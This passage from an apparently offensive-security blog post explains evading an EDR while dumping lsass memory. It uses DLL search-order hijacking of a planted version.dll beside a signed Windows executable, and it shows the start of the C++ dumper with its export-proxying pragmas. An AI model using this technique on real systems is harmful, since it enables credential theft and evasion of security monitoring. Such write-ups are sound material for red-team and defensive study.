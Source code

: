 <img class="fill" src="https://raw.githubusercontent.com/Dec0ne/research/master/img/undetected-lsass-dump-workflow/edr_2.jpg">

Still, I’m up for a challenge, and I wanted to have this lsass dumper be fully undetected by even the most aggressive settings the EDR has to offer, and so I went over to the EDR Console and looked at the description of the alert. 
To my surprise the EDR states that it successfully killed the process, without deleting the executable on disk which is weird. 
Even weirder is the fact the process was apparently killed by the EDR but the dump file was created successfully. 
I assumed that this was some sort of race condition where the EDR was not fast enough to kill the process before it finished creating the dump.

One thing to note is that the description of the alert was basically “***suspicious process opened a handle to lsass***” – nothing about the dump operation itself. 
So the way to go is to somehow obtain a handle to lsass without the EDR alerting on it. 
Techniques like Handle Duplication and Seclogon handle leak comes to mind, but I wanted to try something simpler first.

The alert description specifically said “***Unusual process***” which can mean a process that is not known to usually open a handle to lsass or simply an unknown process. 
So what if we used another, more known and credible, process that will do the heavy lifting for us? **DLL Search Order Hijacking FTW**

I will not cover what’s “***DLL Search Order Hijacking***” / ***DLL Proxying*** in this post as I already blogged about it [here](https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/) and there are a lot of good blog posts about the subject already but the gist of it is that we can convert our lsass dumper executable into a DLL and plant it in a folder of a legitimate and credible executable, change our DLL name to a DLL name that is prone to this attack, in this case ***version.dll***, while exporting and proxying the same functions of the original DLL (which normally exists in *System32* folder). 
In this case we are targeting a Microsoft-signed executable that is available in every version of Windows (as far as I’m aware) ***"C:\Program Files\Windows Photo Viewer\ImagingDevices.exe"*** and our lsass dumper DLL name will be ***version.dll***. We need to add to our code the DLL entry point which is DLLMain and specify that our lsass dump function will fire as soon as a process loads our DLL (*DLL_PROCESS_ATTACH*). We also need to export the original ***version.dll*** exported functions and proxy them back to the original DLL in *System32* folder.

Below is the final code for our lsass dumper executable turned DLL:

```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#include <DbgHelp.h>
#pragma comment(lib, "Dbghelp.lib")

#pragma comment(linker,"/export:GetFileVersionInfoA=C:\\Windows\\System32\\version.GetFileVersionInfoA,@1")
#pragma comment(linker,"/export:GetFileVersionInfoByHandle=C:\\Windows\\System32\\version.GetFileVersionInfoByHandle,@2")
#pragma comment(linker,"/export:GetFileVersionInfoExA=C:\\Windows\\System32\\version.GetFileVersionInfoExA,@3")
#pragma comment(linker,"/export:GetFileVersionInfoExW=C:\\Windows\\System32\\version.GetFileVersionInfoExW,@4")
#pragma comment(linker,"/export:GetFileVersionInfoSizeA=C:\\Windows\\System32\\version.GetFileVersionInfoSizeA,@5")
#pragma comment(linker,"/export:GetFileVersionInfoSizeExA=C:\\Windows\\System32\\version.GetFileVersionInfoSizeExA,@6")
#pragma comment(linker,"/export:GetFileVersionInfoSizeExW=C:\\Windows\\System32\\version.GetFileVersionInfoSizeExW,@7")
#pragma comment(linker,"/export:GetFileVersionInfoSizeW=C:\\Windows\\System32\\version.GetFileVersionInfoSizeW,@8")
#pragma comment(linker,"/export:GetFileVersionInfoW=C:\\Windows\\System32\\version.GetFileVersionInfoW,@9")
#pragma comment(linker,"/export:VerFindFileA=C:\\Windows\\System32\\version.VerFindFileA,@10")
```